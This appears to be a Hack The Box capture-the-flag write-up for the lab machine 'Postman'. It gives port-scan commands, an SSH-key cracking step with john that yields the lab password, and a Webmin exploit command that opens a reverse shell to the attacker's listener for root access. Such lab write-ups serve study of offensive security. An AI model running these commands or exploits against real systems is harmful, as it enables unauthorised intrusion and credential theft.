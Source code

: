 # [Postman](https://app.hackthebox.com/machines/postman)


```bash
rustscan 10.10.10.160 --ulimit 5000 -b 2000 -t 2000
```

![Alt text](img/image.png)

Let's do nmap for open ports.

```bash
nmap -sC -sV -A -p22,80,6379,10000 10.10.10.160 -Pn
```

![Alt text](img/image-1.png)


I searched exploit for Redis '4.0.9' on Google and find [this](https://m0053sec.wordpress.com/2020/02/13/redis-remote-code-execution-rce/)


I do all steps on this article and got shell.

![Alt text](img/image-2.png)

While enumerating machine, I see that I don't have privilege to look at user.txt file, need to pivot into 'Matt' user.

![Alt text](img/image-3.png)


I found 'id_rsa.bak' file on '/opt' directory.

![Alt text](img/image-4.png)


Let's try to crack this RSA key using `ssh2john` and `john` tools.

```bash
ssh2john ssh_key > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-5.png)


We know that password is 'computer2008', after knowing the password of 'Matt' user, we can switch via `su` command.

Matt: computer2008

![Alt text](img/image-6.png)


user.txt

![Alt text](img/image-7.png)


For privilege escalation vector, I can't find anything, that's why I searched Webmin service version (1.910) to find any exploit.

![Alt text](img/image-8.png)


Let's try to use this. (I remove some unnecessary codes from exploit) by writing below.

```bash
python2 webmin_exploit.py --rhost 10.10.10.160 --rport 10000 -u Matt -p computer2008 --lhost 10.10.16.3 --lport 1337 -s true
```

I got reverse shell via listener (port -1337).

root.txt

![Alt text](img/image-10.png)